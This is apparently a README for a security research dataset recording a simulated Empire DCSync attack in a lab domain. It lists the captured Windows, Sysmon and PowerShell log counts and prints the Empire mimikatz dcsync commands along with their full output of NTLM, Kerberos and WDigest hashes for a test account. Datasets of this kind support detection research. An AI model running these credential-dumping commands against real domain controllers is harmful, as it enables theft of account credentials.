 
# Empire DCSync

An adversary with DA permissions can use the active directory replication apis to pull the NTLM hash of any user in the network.

## Technique(s) ID

T1003

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## dataset

[empire_dcsync.tar.gz](./empire_dcsync.tar.gz)

## Nnetwork Environment

Shire

## Time Taken

2019-03-01174830

## About this file

| log_name                                 | task                                                   |   records count |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |            2249 |
| Windows PowerShell                       | Provider Lifecycle                                     |               8 |
| Windows PowerShell                       | Engine Lifecycle                                       |               1 |
| System                                   | Service State Event                                    |               9 |
| Security                                 | User Account Management                                |             160 |
| Security                                 | Filtering Platform Connection                          |             139 |
| Security                                 | Token Right Adjusted Events                            |             109 |
| Security                                 | Group Membership                                       |               6 |
| Security                                 | Logoff                                                 |               6 |
| Security                                 | Logon                                                  |               6 |
| Security                                 | Process Termination                                    |               4 |
| Security                                 | Special Logon                                          |               4 |
| Security                                 | Directory Service Access                               |               3 |
| Security                                 | File Share                                             |               3 |
| Security                                 | Other Object Access Events                             |               2 |
| Security                                 | Detailed File Share                                    |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             171 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |              88 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              60 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |              39 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              20 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |               9 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               2 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               2 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               2 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |            2325 |

## Empire Activity

```
usemodule credentials/mimikatz/dcsync
set domain shire.come
set user pgustavo
set dc HFDC01.shire.com
execute
```

```
  .#####.   mimikatz 2.1.1 (x64) #17763 Feb 23 2019 12:03:02
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::dcsync /user:pgustavo /domain:shire.com /dc:HFDC01.shire.com
[DC] 'shire.com' will be the domain
[DC] 'HFDC01.shire.com' will be the DC server
[DC] 'pgustavo' will be the user account

Object RDN           : Pedro Gustavo

** SAM ACCOUNT **

SAM Username         : pgustavo
User Principal Name  : pgustavo@shire.com
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 
Password last change : 1/14/2019 12:20:18 PM
Object Security ID   : S-1-5-21-2511471446-1103646877-3980648787-1107
Object Relative ID   : 1107

Credentials:
  Hash NTLM: 8ece039f32592670b45fc801e2a9157d
    ntlm- 0: 8ece039f32592670b45fc801e2a9157d
    lm  - 0: 15e09e2518ec09060eb8d5e3edca688b

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 2a41aad084dd4b0f85542de96ec0d713

* Primary:Kerberos-Newer-Keys *
    Default Salt : SHIRE.COMpgustavo
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : e9090c842bd528e456efc9912d417e0fba163d185cf11e803a75299c112ccf71
      aes128_hmac       (4096) : a45b256dcf19e05e7be415c8f8b74df3
      des_cbc_md5       (4096) : 40c4aef2ad988352

* Primary:Kerberos *
    Default Salt : SHIRE.COMpgustavo
    Credentials
      des_cbc_md5       : 40c4aef2ad988352

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  581eb1df6c6053b76a28a0dce36a8d6f
    02  7527b4ed5fdb8d86b3aae51bfa369d09
    03  1afb1ea2a11dacbaa9a7de3cdba90d2e
    04  581eb1df6c6053b76a28a0dce36a8d6f
    05  7527b4ed5fdb8d86b3aae51bfa369d09
    06  71ae329e68bc24b2c4aa77275ddbb153
    07  581eb1df6c6053b76a28a0dce36a8d6f
    08  beb04fe3623809f7bacf7e37109d4d21
    09  beb04fe3623809f7bacf7e37109d4d21
    10  dcbadc06749ae53ff0a5b12fea3117ca
    11  b4fba84ff02a3bf713d6de143ed08a04
    12  beb04fe3623809f7bacf7e37109d4d21
    13  f70d458543eeb1491b108783723d5250
    14  b4fba84ff02a3bf713d6de143ed08a04
    15  eb84c71ed69b32bc4def1ad8a50a3fec
    16  eb84c71ed69b32bc4def1ad8a50a3fec
    17  58e1d74ac34fc6fcc20d947e4bf5e3a9
    18  73eb0629757be77aa4a5a9c1a782658a
    19  60f5c9eefaacae631e229fd15f70ad92
    20  df090cdf058cdbda7bc78a57d2241a9a
    21  286470c2e82b1e8316b1a5198b9c72ec
    22  286470c2e82b1e8316b1a5198b9c72ec
    23  689bbadaae7f867861432adf3e385396
    24  91ff8d6376c52d90415254b0444b497b
    25  91ff8d6376c52d90415254b0444b497b
    26  bc4e42e3164f8e5d01f1b92fc75370ee
    27  535147dcae01ac8505ce306cdcbdfb97
    28  1aa7a460e6e4b2a1431c819b26626241
    29  6348ec8df577d8d1eb401cc5e29ee763
```